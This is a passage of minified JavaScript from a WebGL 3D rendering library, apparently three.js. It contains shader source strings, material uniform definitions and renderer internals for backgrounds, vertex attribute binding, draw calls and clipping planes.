{\\n\\t#include <uv_vertex>\\n\\t#include <color_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphcolor_vertex>\\n\\t#include <batching_vertex>\\n\\t#include <beginnormal_vertex>\\n\\t#include <morphnormal_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <skinnormal_vertex>\\n\\t#include <defaultnormal_vertex>\\n\\t#include <normal_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <displacementmap_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\tvViewPosition = - mvPosition.xyz;\\n\\t#include <worldpos_vertex>\\n\\t#include <shadowmap_vertex>\\n\\t#include <fog_vertex>\\n}\",meshtoon_frag:\"#define TOON\\nuniform vec3 diffuse;\\nuniform vec3 emissive;\\nuniform float opacity;\\n#include <common>\\n#include <packing>\\n#include <dithering_pars_fragment>\\n#include <color_pars_fragment>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <aomap_pars_fragment>\\n#include <lightmap_pars_fragment>\\n#include <emissivemap_pars_fragment>\\n#include <gradientmap_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <bsdfs>\\n#include <lights_pars_begin>\\n#include <normal_pars_fragment>\\n#include <lights_toon_pars_fragment>\\n#include <shadowmap_pars_fragment>\\n#include <bumpmap_pars_fragment>\\n#include <normalmap_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\\n\\tvec3 totalEmissiveRadiance = emissive;\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_fragment>\\n\\t#include <color_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\t#include <normal_fragment_begin>\\n\\t#include <normal_fragment_maps>\\n\\t#include <emissivemap_fragment>\\n\\t#include <lights_toon_fragment>\\n\\t#include <lights_fragment_begin>\\n\\t#include <lights_fragment_maps>\\n\\t#include <lights_fragment_end>\\n\\t#include <aomap_fragment>\\n\\tvec3 outgoingLight = reflectedLight.directDiffuse + reflectedLight.indirectDiffuse + totalEmissiveRadiance;\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n\\t#include <premultiplied_alpha_fragment>\\n\\t#include <dithering_fragment>\\n}\",points_vert:\"uniform float size;\\nuniform float scale;\\n#include <common>\\n#include <color_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\n#ifdef USE_POINTS_UV\\n\\tvarying vec2 vUv;\\n\\tuniform mat3 uvTransform;\\n#endif\\nvoid main() {\\n\\t#ifdef USE_POINTS_UV\\n\\t\\tvUv = ( uvTransform * vec3( uv, 1 ) ).xy;\\n\\t#endif\\n\\t#include <color_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphcolor_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <project_vertex>\\n\\tgl_PointSize = size;\\n\\t#ifdef USE_SIZEATTENUATION\\n\\t\\tbool isPerspective = isPerspectiveMatrix( projectionMatrix );\\n\\t\\tif ( isPerspective ) gl_PointSize *= ( scale / - mvPosition.z );\\n\\t#endif\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\t#include <worldpos_vertex>\\n\\t#include <fog_vertex>\\n}\",points_frag:\"uniform vec3 diffuse;\\nuniform float opacity;\\n#include <common>\\n#include <color_pars_fragment>\\n#include <map_particle_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\tvec3 outgoingLight = vec3( 0.0 );\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_particle_fragment>\\n\\t#include <color_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\toutgoingLight = diffuseColor.rgb;\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n\\t#include <premultiplied_alpha_fragment>\\n}\",shadow_vert:\"#include <common>\\n#include <batching_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <shadowmap_pars_vertex>\\nvoid main() {\\n\\t#include <batching_vertex>\\n\\t#include <beginnormal_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphnormal_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <skinnormal_vertex>\\n\\t#include <defaultnormal_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <worldpos_vertex>\\n\\t#include <shadowmap_vertex>\\n\\t#include <fog_vertex>\\n}\",shadow_frag:\"uniform vec3 color;\\nuniform float opacity;\\n#include <common>\\n#include <packing>\\n#include <fog_pars_fragment>\\n#include <bsdfs>\\n#include <lights_pars_begin>\\n#include <logdepthbuf_pars_fragment>\\n#include <shadowmap_pars_fragment>\\n#include <shadowmask_pars_fragment>\\nvoid main() {\\n\\t#include <logdepthbuf_fragment>\\n\\tgl_FragColor = vec4( color, opacity * ( 1.0 - getShadowMask() ) );\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n}\",sprite_vert:\"uniform float rotation;\\nuniform vec2 center;\\n#include <common>\\n#include <uv_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\tvec4 mvPosition = modelViewMatrix * vec4( 0.0, 0.0, 0.0, 1.0 );\\n\\tvec2 scale;\\n\\tscale.x = length( vec3( modelMatrix[ 0 ].x, modelMatrix[ 0 ].y, modelMatrix[ 0 ].z ) );\\n\\tscale.y = length( vec3( modelMatrix[ 1 ].x, modelMatrix[ 1 ].y, modelMatrix[ 1 ].z ) );\\n\\t#ifndef USE_SIZEATTENUATION\\n\\t\\tbool isPerspective = isPerspectiveMatrix( projectionMatrix );\\n\\t\\tif ( isPerspective ) scale *= - mvPosition.z;\\n\\t#endif\\n\\tvec2 alignedPosition = ( position.xy - ( center - vec2( 0.5 ) ) ) * scale;\\n\\tvec2 rotatedPosition;\\n\\trotatedPosition.x = cos( rotation ) * alignedPosition.x - sin( rotation ) * alignedPosition.y;\\n\\trotatedPosition.y = sin( rotation ) * alignedPosition.x + cos( rotation ) * alignedPosition.y;\\n\\tmvPosition.xy += rotatedPosition;\\n\\tgl_Position = projectionMatrix * mvPosition;\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\t#include <fog_vertex>\\n}\",sprite_frag:\"uniform vec3 diffuse;\\nuniform float opacity;\\n#include <common>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\tvec3 outgoingLight = vec3( 0.0 );\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\toutgoingLight = diffuseColor.rgb;\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n}\"},Mr={common:{diffuse:{value:new di(16777215)},opacity:{value:1},map:{value:null},mapTransform:{value:new ye},alphaMap:{value:null},alphaMapTransform:{value:new ye},alphaTest:{value:0}},specularmap:{specularMap:{value:null},specularMapTransform:{value:new ye}},envmap:{envMap:{value:null},envMapRotation:{value:new ye},flipEnvMap:{value:-1},reflectivity:{value:1},ior:{value:1.5},refractionRatio:{value:.98}},aomap:{aoMap:{value:null},aoMapIntensity:{value:1},aoMapTransform:{value:new ye}},lightmap:{lightMap:{value:null},lightMapIntensity:{value:1},lightMapTransform:{value:new ye}},bumpmap:{bumpMap:{value:null},bumpMapTransform:{value:new ye},bumpScale:{value:1}},normalmap:{normalMap:{value:null},normalMapTransform:{value:new ye},normalScale:{value:new ve(1,1)}},displacementmap:{displacementMap:{value:null},displacementMapTransform:{value:new ye},displacementScale:{value:1},displacementBias:{value:0}},emissivemap:{emissiveMap:{value:null},emissiveMapTransform:{value:new ye}},metalnessmap:{metalnessMap:{value:null},metalnessMapTransform:{value:new ye}},roughnessmap:{roughnessMap:{value:null},roughnessMapTransform:{value:new ye}},gradientmap:{gradientMap:{value:null}},fog:{fogDensity:{value:25e-5},fogNear:{value:1},fogFar:{value:2e3},fogColor:{value:new di(16777215)}},lights:{ambientLightColor:{value:[]},lightProbe:{value:[]},directionalLights:{value:[],properties:{direction:{},color:{}}},directionalLightShadows:{value:[],properties:{shadowIntensity:1,shadowBias:{},shadowNormalBias:{},shadowRadius:{},shadowMapSize:{}}},directionalShadowMap:{value:[]},directionalShadowMatrix:{value:[]},spotLights:{value:[],properties:{color:{},position:{},direction:{},distance:{},coneCos:{},penumbraCos:{},decay:{}}},spotLightShadows:{value:[],properties:{shadowIntensity:1,shadowBias:{},shadowNormalBias:{},shadowRadius:{},shadowMapSize:{}}},spotLightMap:{value:[]},spotShadowMap:{value:[]},spotLightMatrix:{value:[]},pointLights:{value:[],properties:{color:{},position:{},decay:{},distance:{}}},pointLightShadows:{value:[],properties:{shadowIntensity:1,shadowBias:{},shadowNormalBias:{},shadowRadius:{},shadowMapSize:{},shadowCameraNear:{},shadowCameraFar:{}}},pointShadowMap:{value:[]},pointShadowMatrix:{value:[]},hemisphereLights:{value:[],properties:{direction:{},skyColor:{},groundColor:{}}},rectAreaLights:{value:[],properties:{color:{},position:{},width:{},height:{}}},ltc_1:{value:null},ltc_2:{value:null}},points:{diffuse:{value:new di(16777215)},opacity:{value:1},size:{value:1},scale:{value:1},map:{value:null},alphaMap:{value:null},alphaMapTransform:{value:new ye},alphaTest:{value:0},uvTransform:{value:new ye}},sprite:{diffuse:{value:new di(16777215)},opacity:{value:1},center:{value:new ve(.5,.5)},rotation:{value:0},map:{value:null},mapTransform:{value:new ye},alphaMap:{value:null},alphaMapTransform:{value:new ye},alphaTest:{value:0}}},Sr={basic:{uniforms:Ji([Mr.common,Mr.specularmap,Mr.envmap,Mr.aomap,Mr.lightmap,Mr.fog]),vertexShader:br.meshbasic_vert,fragmentShader:br.meshbasic_frag},lambert:{uniforms:Ji([Mr.common,Mr.specularmap,Mr.envmap,Mr.aomap,Mr.lightmap,Mr.emissivemap,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.fog,Mr.lights,{emissive:{value:new di(0)}}]),vertexShader:br.meshlambert_vert,fragmentShader:br.meshlambert_frag},phong:{uniforms:Ji([Mr.common,Mr.specularmap,Mr.envmap,Mr.aomap,Mr.lightmap,Mr.emissivemap,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.fog,Mr.lights,{emissive:{value:new di(0)},specular:{value:new di(1118481)},shininess:{value:30}}]),vertexShader:br.meshphong_vert,fragmentShader:br.meshphong_frag},standard:{uniforms:Ji([Mr.common,Mr.envmap,Mr.aomap,Mr.lightmap,Mr.emissivemap,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.roughnessmap,Mr.metalnessmap,Mr.fog,Mr.lights,{emissive:{value:new di(0)},roughness:{value:1},metalness:{value:0},envMapIntensity:{value:1}}]),vertexShader:br.meshphysical_vert,fragmentShader:br.meshphysical_frag},toon:{uniforms:Ji([Mr.common,Mr.aomap,Mr.lightmap,Mr.emissivemap,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.gradientmap,Mr.fog,Mr.lights,{emissive:{value:new di(0)}}]),vertexShader:br.meshtoon_vert,fragmentShader:br.meshtoon_frag},matcap:{uniforms:Ji([Mr.common,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.fog,{matcap:{value:null}}]),vertexShader:br.meshmatcap_vert,fragmentShader:br.meshmatcap_frag},points:{uniforms:Ji([Mr.points,Mr.fog]),vertexShader:br.points_vert,fragmentShader:br.points_frag},dashed:{uniforms:Ji([Mr.common,Mr.fog,{scale:{value:1},dashSize:{value:1},totalSize:{value:2}}]),vertexShader:br.linedashed_vert,fragmentShader:br.linedashed_frag},depth:{uniforms:Ji([Mr.common,Mr.displacementmap]),vertexShader:br.depth_vert,fragmentShader:br.depth_frag},normal:{uniforms:Ji([Mr.common,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,{opacity:{value:1}}]),vertexShader:br.meshnormal_vert,fragmentShader:br.meshnormal_frag},sprite:{uniforms:Ji([Mr.sprite,Mr.fog]),vertexShader:br.sprite_vert,fragmentShader:br.sprite_frag},background:{uniforms:{uvTransform:{value:new ye},t2D:{value:null},backgroundIntensity:{value:1}},vertexShader:br.background_vert,fragmentShader:br.background_frag},backgroundCube:{uniforms:{envMap:{value:null},flipEnvMap:{value:-1},backgroundBlurriness:{value:0},backgroundIntensity:{value:1},backgroundRotation:{value:new ye}},vertexShader:br.backgroundCube_vert,fragmentShader:br.backgroundCube_frag},cube:{uniforms:{tCube:{value:null},tFlip:{value:-1},opacity:{value:1}},vertexShader:br.cube_vert,fragmentShader:br.cube_frag},equirect:{uniforms:{tEquirect:{value:null}},vertexShader:br.equirect_vert,fragmentShader:br.equirect_frag},distanceRGBA:{uniforms:Ji([Mr.common,Mr.displacementmap,{referencePosition:{value:new Xe},nearDistance:{value:1},farDistance:{value:1e3}}]),vertexShader:br.distanceRGBA_vert,fragmentShader:br.distanceRGBA_frag},shadow:{uniforms:Ji([Mr.lights,Mr.fog,{color:{value:new di(0)},opacity:{value:1}}]),vertexShader:br.shadow_vert,fragmentShader:br.shadow_frag}};Sr.physical={uniforms:Ji([Sr.standard.uniforms,{clearcoat:{value:0},clearcoatMap:{value:null},clearcoatMapTransform:{value:new ye},clearcoatNormalMap:{value:null},clearcoatNormalMapTransform:{value:new ye},clearcoatNormalScale:{value:new ve(1,1)},clearcoatRoughness:{value:0},clearcoatRoughnessMap:{value:null},clearcoatRoughnessMapTransform:{value:new ye},dispersion:{value:0},iridescence:{value:0},iridescenceMap:{value:null},iridescenceMapTransform:{value:new ye},iridescenceIOR:{value:1.3},iridescenceThicknessMinimum:{value:100},iridescenceThicknessMaximum:{value:400},iridescenceThicknessMap:{value:null},iridescenceThicknessMapTransform:{value:new ye},sheen:{value:0},sheenColor:{value:new di(0)},sheenColorMap:{value:null},sheenColorMapTransform:{value:new ye},sheenRoughness:{value:1},sheenRoughnessMap:{value:null},sheenRoughnessMapTransform:{value:new ye},transmission:{value:0},transmissionMap:{value:null},transmissionMapTransform:{value:new ye},transmissionSamplerSize:{value:new ve},transmissionSamplerMap:{value:null},thickness:{value:0},thicknessMap:{value:null},thicknessMapTransform:{value:new ye},attenuationDistance:{value:0},attenuationColor:{value:new di(0)},specularColor:{value:new di(1,1,1)},specularColorMap:{value:null},specularColorMapTransform:{value:new ye},specularIntensity:{value:1},specularIntensityMap:{value:null},specularIntensityMapTransform:{value:new ye},anisotropyVector:{value:new ve},anisotropyMap:{value:null},anisotropyMapTransform:{value:new ye}}]),vertexShader:br.meshphysical_vert,fragmentShader:br.meshphysical_frag};const Er={r:0,b:0,g:0},wr=new In,Tr=new Sn;function Ar(t,e,n,i,r,a,o){const s=new di(0);let l,c,h=!0===a?0:1,u=null,d=0,p=null;function f(t){let i=!0===t.isScene?t.background:null;if(i&&i.isTexture){i=(t.backgroundBlurriness>0?n:e).get(i)}return i}function m(e,n){e.getRGB(Er,Qi(t)),i.buffers.color.setClear(Er.r,Er.g,Er.b,n,o)}return{getClearColor:function(){return s},setClearColor:function(t,e=1){s.set(t),h=e,m(s,h)},getClearAlpha:function(){return h},setClearAlpha:function(t){h=t,m(s,h)},render:function(e){let n=!1;const r=f(e);null===r?m(s,h):r&&r.isColor&&(m(r,1),n=!0);const a=t.xr.getEnvironmentBlendMode();\"additive\"===a?i.buffers.color.setClear(0,0,0,1,o):\"alpha-blend\"===a&&i.buffers.color.setClear(0,0,0,0,o),(t.autoClear||n)&&(i.buffers.depth.setTest(!0),i.buffers.depth.setMask(!0),i.buffers.color.setMask(!0),t.clear(t.autoClearColor,t.autoClearDepth,t.autoClearStencil))},addToRenderList:function(e,n){const i=f(n);i&&(i.isCubeTexture||i.mapping===O)?(void 0===c&&(c=new Yi(new Zi(1,1,1),new er({name:\"BackgroundCubeMaterial\",uniforms:$i(Sr.backgroundCube.uniforms),vertexShader:Sr.backgroundCube.vertexShader,fragmentShader:Sr.backgroundCube.fragmentShader,side:1,depthTest:!1,depthWrite:!1,fog:!1})),c.geometry.deleteAttribute(\"normal\"),c.geometry.deleteAttribute(\"uv\"),c.onBeforeRender=function(t,e,n){this.matrixWorld.copyPosition(n.matrixWorld)},Object.defineProperty(c.material,\"envMap\",{get:function(){return this.uniforms.envMap.value}}),r.update(c)),wr.copy(n.backgroundRotation),wr.x*=-1,wr.y*=-1,wr.z*=-1,i.isCubeTexture&&!1===i.isRenderTargetTexture&&(wr.y*=-1,wr.z*=-1),c.material.uniforms.envMap.value=i,c.material.uniforms.flipEnvMap.value=i.isCubeTexture&&!1===i.isRenderTargetTexture?-1:1,c.material.uniforms.backgroundBlurriness.value=n.backgroundBlurriness,c.material.uniforms.backgroundIntensity.value=n.backgroundIntensity,c.material.uniforms.backgroundRotation.value.setFromMatrix4(Tr.makeRotationFromEuler(wr)),c.material.toneMapped=Pe.getTransfer(i.colorSpace)!==Wt,u===i&&d===i.version&&p===t.toneMapping||(c.material.needsUpdate=!0,u=i,d=i.version,p=t.toneMapping),c.layers.enableAll(),e.unshift(c,c.geometry,c.material,0,0,null)):i&&i.isTexture&&(void 0===l&&(l=new Yi(new xr(2,2),new er({name:\"BackgroundMaterial\",uniforms:$i(Sr.background.uniforms),vertexShader:Sr.background.vertexShader,fragmentShader:Sr.background.fragmentShader,side:0,depthTest:!1,depthWrite:!1,fog:!1})),l.geometry.deleteAttribute(\"normal\"),Object.defineProperty(l.material,\"map\",{get:function(){return this.uniforms.t2D.value}}),r.update(l)),l.material.uniforms.t2D.value=i,l.material.uniforms.backgroundIntensity.value=n.backgroundIntensity,l.material.toneMapped=Pe.getTransfer(i.colorSpace)!==Wt,!0===i.matrixAutoUpdate&&i.updateMatrix(),l.material.uniforms.uvTransform.value.copy(i.matrix),u===i&&d===i.version&&p===t.toneMapping||(l.material.needsUpdate=!0,u=i,d=i.version,p=t.toneMapping),l.layers.enableAll(),e.unshift(l,l.geometry,l.material,0,0,null))}}}function Cr(t,e){const n=t.getParameter(t.MAX_VERTEX_ATTRIBS),i={},r=c(null);let a=r,o=!1;function s(e){return t.bindVertexArray(e)}function l(e){return t.deleteVertexArray(e)}function c(t){const e=[],i=[],r=[];for(let t=0;t<n;t++)e[t]=0,i[t]=0,r[t]=0;return{geometry:null,program:null,wireframe:!1,newAttributes:e,enabledAttributes:i,attributeDivisors:r,object:t,attributes:{},index:null}}function h(){const t=a.newAttributes;for(let e=0,n=t.length;e<n;e++)t[e]=0}function u(t){d(t,0)}function d(e,n){const i=a.newAttributes,r=a.enabledAttributes,o=a.attributeDivisors;i[e]=1,0===r[e]&&(t.enableVertexAttribArray(e),r[e]=1),o[e]!==n&&(t.vertexAttribDivisor(e,n),o[e]=n)}function p(){const e=a.newAttributes,n=a.enabledAttributes;for(let i=0,r=n.length;i<r;i++)n[i]!==e[i]&&(t.disableVertexAttribArray(i),n[i]=0)}function f(e,n,i,r,a,o,s){!0===s?t.vertexAttribIPointer(e,n,i,a,o):t.vertexAttribPointer(e,n,i,r,a,o)}function m(){g(),o=!0,a!==r&&(a=r,s(a.object))}function g(){r.geometry=null,r.program=null,r.wireframe=!1}return{setup:function(n,r,l,m,g){let _=!1;const v=function(e,n,r){const a=!0===r.wireframe;let o=i[e.id];void 0===o&&(o={},i[e.id]=o);let s=o[n.id];void 0===s&&(s={},o[n.id]=s);let l=s[a];void 0===l&&(l=c(t.createVertexArray()),s[a]=l);return l}(m,l,r);a!==v&&(a=v,s(a.object)),_=function(t,e,n,i){const r=a.attributes,o=e.attributes;let s=0;const l=n.getAttributes();for(const e in l){if(l[e].location>=0){const n=r[e];let i=o[e];if(void 0===i&&(\"instanceMatrix\"===e&&t.instanceMatrix&&(i=t.instanceMatrix),\"instanceColor\"===e&&t.instanceColor&&(i=t.instanceColor)),void 0===n)return!0;if(n.attribute!==i)return!0;if(i&&n.data!==i.data)return!0;s++}}return a.attributesNum!==s||a.index!==i}(n,m,l,g),_&&function(t,e,n,i){const r={},o=e.attributes;let s=0;const l=n.getAttributes();for(const e in l){if(l[e].location>=0){let n=o[e];void 0===n&&(\"instanceMatrix\"===e&&t.instanceMatrix&&(n=t.instanceMatrix),\"instanceColor\"===e&&t.instanceColor&&(n=t.instanceColor));const i={};i.attribute=n,n&&n.data&&(i.data=n.data),r[e]=i,s++}}a.attributes=r,a.attributesNum=s,a.index=i}(n,m,l,g),null!==g&&e.update(g,t.ELEMENT_ARRAY_BUFFER),(_||o)&&(o=!1,function(n,i,r,a){h();const o=a.attributes,s=r.getAttributes(),l=i.defaultAttributeValues;for(const i in s){const r=s[i];if(r.location>=0){let s=o[i];if(void 0===s&&(\"instanceMatrix\"===i&&n.instanceMatrix&&(s=n.instanceMatrix),\"instanceColor\"===i&&n.instanceColor&&(s=n.instanceColor)),void 0!==s){const i=s.normalized,o=s.itemSize,l=e.get(s);if(void 0===l)continue;const c=l.buffer,h=l.type,p=l.bytesPerElement,m=h===t.INT||h===t.UNSIGNED_INT||s.gpuType===Y;if(s.isInterleavedBufferAttribute){const e=s.data,l=e.stride,g=s.offset;if(e.isInstancedInterleavedBuffer){for(let t=0;t<r.locationSize;t++)d(r.location+t,e.meshPerAttribute);!0!==n.isInstancedMesh&&void 0===a._maxInstanceCount&&(a._maxInstanceCount=e.meshPerAttribute*e.count)}else for(let t=0;t<r.locationSize;t++)u(r.location+t);t.bindBuffer(t.ARRAY_BUFFER,c);for(let t=0;t<r.locationSize;t++)f(r.location+t,o/r.locationSize,h,i,l*p,(g+o/r.locationSize*t)*p,m)}else{if(s.isInstancedBufferAttribute){for(let t=0;t<r.locationSize;t++)d(r.location+t,s.meshPerAttribute);!0!==n.isInstancedMesh&&void 0===a._maxInstanceCount&&(a._maxInstanceCount=s.meshPerAttribute*s.count)}else for(let t=0;t<r.locationSize;t++)u(r.location+t);t.bindBuffer(t.ARRAY_BUFFER,c);for(let t=0;t<r.locationSize;t++)f(r.location+t,o/r.locationSize,h,i,o*p,o/r.locationSize*t*p,m)}}else if(void 0!==l){const e=l[i];if(void 0!==e)switch(e.length){case 2:t.vertexAttrib2fv(r.location,e);break;case 3:t.vertexAttrib3fv(r.location,e);break;case 4:t.vertexAttrib4fv(r.location,e);break;default:t.vertexAttrib1fv(r.location,e)}}}}p()}(n,r,l,m),null!==g&&t.bindBuffer(t.ELEMENT_ARRAY_BUFFER,e.get(g).buffer))},reset:m,resetDefaultState:g,dispose:function(){m();for(const t in i){const e=i[t];for(const t in e){const n=e[t];for(const t in n)l(n[t].object),delete n[t];delete e[t]}delete i[t]}},releaseStatesOfGeometry:function(t){if(void 0===i[t.id])return;const e=i[t.id];for(const t in e){const n=e[t];for(const t in n)l(n[t].object),delete n[t];delete e[t]}delete i[t.id]},releaseStatesOfProgram:function(t){for(const e in i){const n=i[e];if(void 0===n[t.id])continue;const r=n[t.id];for(const t in r)l(r[t].object),delete r[t];delete n[t.id]}},initAttributes:h,enableAttribute:u,disableUnusedAttributes:p}}function Rr(t,e,n){let i;function r(e,r,a){0!==a&&(t.drawArraysInstanced(i,e,r,a),n.update(r,i,a))}this.setMode=function(t){i=t},this.render=function(e,r){t.drawArrays(i,e,r),n.update(r,i,1)},this.renderInstances=r,this.renderMultiDraw=function(t,r,a){if(0===a)return;e.get(\"WEBGL_multi_draw\").multiDrawArraysWEBGL(i,t,0,r,0,a);let o=0;for(let t=0;t<a;t++)o+=r[t];n.update(o,i,1)},this.renderMultiDrawInstances=function(t,a,o,s){if(0===o)return;const l=e.get(\"WEBGL_multi_draw\");if(null===l)for(let e=0;e<t.length;e++)r(t[e],a[e],s[e]);else{l.multiDrawArraysInstancedWEBGL(i,t,0,a,0,s,0,o);let e=0;for(let t=0;t<o;t++)e+=a[t];for(let t=0;t<s.length;t++)n.update(e,i,s[t])}}}function Pr(t,e,n,i){let r;function a(e){if(\"highp\"===e){if(t.getShaderPrecisionFormat(t.VERTEX_SHADER,t.HIGH_FLOAT).precision>0&&t.getShaderPrecisionFormat(t.FRAGMENT_SHADER,t.HIGH_FLOAT).precision>0)return\"highp\";e=\"mediump\"}return\"mediump\"===e&&t.getShaderPrecisionFormat(t.VERTEX_SHADER,t.MEDIUM_FLOAT).precision>0&&t.getShaderPrecisionFormat(t.FRAGMENT_SHADER,t.MEDIUM_FLOAT).precision>0?\"mediump\":\"lowp\"}let o=void 0!==n.precision?n.precision:\"highp\";const s=a(o);s!==o&&(console.warn(\"THREE.WebGLRenderer:\",o,\"not supported, using\",s,\"instead.\"),o=s);const l=!0===n.logarithmicDepthBuffer,c=t.getParameter(t.MAX_TEXTURE_IMAGE_UNITS),h=t.getParameter(t.MAX_VERTEX_TEXTURE_IMAGE_UNITS);return{isWebGL2:!0,getMaxAnisotropy:function(){if(void 0!==r)return r;if(!0===e.has(\"EXT_texture_filter_anisotropic\")){const n=e.get(\"EXT_texture_filter_anisotropic\");r=t.getParameter(n.MAX_TEXTURE_MAX_ANISOTROPY_EXT)}else r=0;return r},getMaxPrecision:a,textureFormatReadable:function(e){return e===nt||i.convert(e)===t.getParameter(t.IMPLEMENTATION_COLOR_READ_FORMAT)},textureTypeReadable:function(n){const r=n===$&&(e.has(\"EXT_color_buffer_half_float\")||e.has(\"EXT_color_buffer_float\"));return!(n!==j&&i.convert(n)!==t.getParameter(t.IMPLEMENTATION_COLOR_READ_TYPE)&&n!==Z&&!r)},precision:o,logarithmicDepthBuffer:l,maxTextures:c,maxVertexTextures:h,maxTextureSize:t.getParameter(t.MAX_TEXTURE_SIZE),maxCubemapSize:t.getParameter(t.MAX_CUBE_MAP_TEXTURE_SIZE),maxAttributes:t.getParameter(t.MAX_VERTEX_ATTRIBS),maxVertexUniforms:t.getParameter(t.MAX_VERTEX_UNIFORM_VECTORS),maxVaryings:t.getParameter(t.MAX_VARYING_VECTORS),maxFragmentUniforms:t.getParameter(t.MAX_FRAGMENT_UNIFORM_VECTORS),vertexTextures:h>0,maxSamples:t.getParameter(t.MAX_SAMPLES)}}function Lr(t){const e=this;let n=null,i=0,r=!1,a=!1;const o=new fr,s=new ye,l={value:null,needsUpdate:!1};function c(t,n,i,r){const a=null!==t?t.length:0;let c=null;if(0!==a){if(c=l.value,!0!==r||null===c){const e=i+4*a,r=n.matrixWorldInverse;s.getNormalMatrix(r),(null===c||c.length<e)&&(c=new Float32Array(e));for(let e=0,n=i;e!==a;++e,n+=4)o.copy(t[e]).applyMatrix4(r,s),o.normal.toArray(c,n),c[n+3]=o.constant}l.value=c,l.needsUpdate=!0}return e.numPlanes=a,e.numIntersection=0,c}this.uniform=l,this.numPlanes=0,this.numIntersection=0,this.init=function(t,e){const n=0!==t.length||e||0!==i||r;return r=e,i=t.length,n},this.beginShadows=function(){a=!0,c(null)},this.endShadows=function(){a=!1},this.setGlobalState=function(t,e){n=c(t,e,0)},this.setState=function(o,s,h){const u=o.clippingPlanes,d=o.clipIntersection,p=o.clipShadows,f=t.get(o);if(!r||null===u||0===u.length||a&&!p)a?c(null):function(){l.value!==n&&(l.value=n,l.needsUpdate=i>0);e.numPlanes=i,e.numIntersection=0}();else{const t=a?0:i,e=4*t;let r=f.clippingState||null;l.value=r,r=c(u,s,e,h);for(let t=0;t!==e;++t)r[t]=n[t];f.clippingState=r,this.numIntersection=d?this.numPlanes:0,this.numPlanes+=t}}}function Dr(t){let e=new WeakMap;function n(t,e){return 303===e?t.mapping=D:304===e&&(t.mapping=I),t}function i(t){const n=t.target;n.removeEventListener(\"dispose\",i);const r=e.get(n);void 0!==r&&(e.delete(n),r.dispose())}return{get:function(r){if(r&&r.isTexture){const a=r.mapping;if(303===a||304===a){if(e.has(r)){return n(e.get(r).texture,r.mapping)}{const a=r.image;if(a&&a.height>0){const o=new hr(a.height);return o.fromEquirectangularTexture(t,r),e.set(r,o),r.addEventListener(\"dispose\",i),n(o.texture,r.mapping)}return null}}}return r},dispose:function(){e=new WeakMap}}}class Ir extends 